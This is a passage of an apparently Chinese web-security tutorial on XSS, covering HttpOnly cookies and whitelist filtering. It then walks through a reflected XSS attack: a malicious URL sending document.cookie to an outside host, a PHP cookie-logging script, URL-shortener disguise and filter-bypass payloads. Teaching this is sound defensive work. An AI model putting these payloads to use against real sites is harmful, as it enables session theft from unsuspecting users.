 **3) HttpOnly Cookie。**

这是预防XSS攻击窃取用户cookie最有效的防御手段。Web应用程序在设置cookie时，将其属性设为HttpOnly，就可以避免该网页的cookie被客户端恶意JavaScript窃取，保护用户cookie信息。

## 富文本编辑器中XSS攻击的防范

1.建立白名单就好，保留要用的标签，其他全部过滤

2.入数据库的时候 转义为实体字符，出库的时候还原，并过滤掉以下

```
<script></script>
javascript:xxx;
```

## XSS 跨站脚本攻击

Chrome浏览器默认开启xss监听，测试前须命令行启动浏览器，关闭监听。

```js
cd /Applications/Google Chrome.app/Contents/MacOS
./Google Chrome --disable-xss-auditor
```

**反射型**：非持久化，用户主动点击带有恶意URL，发送请求到后端，后端返回带有恶意脚本的页面。
假设某网站 [http://A.com](http://a.com/) 的某个输入框存在XSS漏洞，能通过输入框或者URL传入脚本执行。比如它的后端php代码是这样的

```php
echo 'Hello ' . $_GET[ 'name' ];
```

那么，就可以在 url中传入参数name。生成 **恶意url**：

```js
A.com/?name=<script>window.open('B.com/ck.php?c='+document.cookie)</script>
```

ck.php文件代码如下，将获得的cookie存入cookie.txt。

```text
$cookie = $_GET['c']; 
$ip = getenv ('REMOTE_ADDR'); 
$time=date("j F, Y, g:i a"); 
$referer=getenv ('HTTP_REFERER'); 
$fp = fopen('cookie.txt', 'a'); 
fwrite($fp, 'Cookie: '.$cookie."\n".'IP: '.$ip."\n".'Date and Time: '.$time."\n".'Referer: '.$referer."\n\n"); 
fclose($fp);
```

通过短域名生成网站,将上诉 **恶意 url** 映射成类似http://dwz.cn/B4l3Ydke的网址欺骗用户，发送给已经在[http://A.com](http://a.com/)登录的用户，用户点击之后，cookie信息就会自动保存到 [http://B.com](http://b.com/)下的cookie.txt中。

通常，后端不会这么如此信任用户输入，会对各种输入进行正则过滤限制。针对各种过滤出现了对应的恶意 payload, 通过事件、通过协议、通过请求。

```js
<Script> 恶意代码 </script>
<sc<script>ript> 恶意代码 </script>
<img onerror=" 恶意代码 " >
<div style="position:fixed;top:0;left:0;bottom:0;right:0;" onclick=" 恶意代码 "></div>
...
```
